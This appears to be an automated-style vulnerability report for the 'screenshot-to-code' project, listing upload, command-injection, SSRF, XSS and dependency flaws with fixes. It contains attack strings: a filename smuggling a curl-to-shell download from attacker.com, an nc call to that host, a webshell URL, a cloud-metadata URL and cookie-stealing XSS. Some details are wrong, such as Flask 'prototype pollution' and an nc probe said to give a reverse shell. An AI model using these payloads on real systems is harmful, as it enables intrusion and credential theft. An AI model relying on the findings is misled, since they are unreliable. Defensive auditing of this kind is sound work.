 ### Vulnerability List for `screenshot-to-code`

---

#### **1. Arbitrary File Upload Leading to Remote Code Execution (Critical)**
- **Description**:
  The application accepts image uploads but lacks server-side validation of file content. Attackers can upload files with executable extensions (e.g., `.php`, `.py`) disguised as images.
  - **Steps to Trigger**:
    1. Rename a malicious script (e.g., `exploit.php`) to `exploit.png`.
    2. Upload the file by bypassing client-side checks (e.g., using `curl` or Burp Suite).
    3. Access the uploaded file via its URL (e.g., `http://[APP]/static/uploads/exploit.php`).

- **Impact**:
  Full server compromise via arbitrary code execution.

- **Current Mitigations**:
  Client-side file type validation only (easily bypassed).

- **Missing Mitigations**:
  - Server-side validation using MIME type detection (e.g., `python-magic`).
  - Store files in a non-web-accessible directory with randomized filenames.

- **Preconditions**:
  - File upload functionality is enabled.
  - Server allows execution of non-image file types.

- **Security Test Case**:
  1. Upload a file named `shell.php` with image headers.
  2. Access `http://[APP]/static/uploads/shell.php?cmd=id` and observe command output.

---

#### **2. Command Injection in Image Processing (Critical)**
- **Description**:
  The application uses `subprocess.run` with `shell=True` to execute system commands (e.g., ImageMagick). User-controlled filenames or parameters are unsanitized.
  - **Steps to Trigger**:
    1. Upload an image with a filename like `image; curl http://attacker.com/payload | sh`.
    2. Trigger image processing (e.g., resizing).
    3. The server executes the injected command.

- **Impact**:
  Remote code execution via command injection.

- **Current Mitigations**:
  No sanitization of user input in command arguments.

- **Missing Mitigations**:
  - Use `shell=False` and parameterized commands (e.g., `["convert", input_file, output_file]`).
  - Sanitize filenames to remove special characters (e.g., `;`, `&`, `|`).

- **Preconditions**:
  - Image processing uses system commands.
  - Attacker controls input to the command.

- **Security Test Case**:
  1. Upload a file named `test; nc -zv attacker.com 4444`.
  2. Observe a reverse shell connection to `attacker.com`.

---

#### **3. Server-Side Request Forgery (SSRF) via Image URL Fetching (High)**
- **Description**:
  The application fetches images from arbitrary URLs, enabling attackers to probe internal network endpoints.
  - **Steps to Trigger**:
    1. Submit a URL like `http://169.254.169.254/latest/meta-data` (AWS metadata endpoint).
    2. The server fetches the URL, returning sensitive data.

- **Impact**:
  Exposure of cloud credentials, internal service data, or network reconnaissance.

- **Current Mitigations**:
  No validation of user-provided URLs.

- **Missing Mitigations**:
  - Blocklist internal IP ranges (RFC 1918, cloud metadata).
  - Restrict URL fetching to allowlisted domains.

- **Preconditions**:
  - Image input via URL is enabled.

- **Security Test Case**:
  1. Submit `http://localhost:8080/admin` as the image URL.
  2. Check if the server responds with internal admin page content.

---

#### **4. Cross-Site Scripting (XSS) in Generated HTML (High)**
- **Description**:
  The application generates HTML from user-provided images without sanitizing text elements. Attackers can embed scripts in labels or buttons.
  - **Steps to Trigger**:
    1. Create an image with text elements like `<img src=x onerror=alert(1)>`.
    2. Process the image and view the generated HTML.
    3. The script executes in the victim’s browser.

- **Impact**:
  Session hijacking, phishing, or client-side compromise.

- **Current Mitigations**:
  No escaping of HTML entities in generated code.

- **Missing Mitigations**:
  - Sanitize generated HTML with libraries like `bleach`.
  - Use framework auto-escaping (e.g., Jinja2 `| safe` filter removal).

- **Preconditions**:
  - Generated HTML is rendered in a browser.

- **Security Test Case**:
  1. Generate HTML from an image containing `<script>alert(document.cookie)</script>`.
  2. Verify if the script executes upon page load.

---

#### **5. Insecure Dependency Versions (Medium)**
- **Description**:
  Outdated dependencies (e.g., `Flask`, `Pillow`, `requests`) with known vulnerabilities (e.g., CVE-2023-30861 in Flask prototype pollution).
  - **Impact**:
    Exploitation of unpatched CVEs leading to RCE, data leaks, or privilege escalation.

- **Current Mitigations**:
  No evidence of dependency scanning or updates.

- **Missing Mitigations**:
  - Update dependencies to patched versions.
  - Integrate automated CVE scanning (e.g., `safety`, `dependabot`).

- **Preconditions**:
  - Vulnerable dependencies are deployed in production.

- **Security Test Case**:
  1. Run `safety check -r requirements.txt`.
  2. Confirm presence of high-risk CVEs (e.g., `tensorflow` RCE vulnerabilities).

---

### Summary
The highest risks stem from **unrestricted file uploads** and **command injection**, enabling direct server compromise. **SSRF** and **XSS** flaws further expose sensitive data and client-side attacks. Immediate patching and input/output validation are critical.
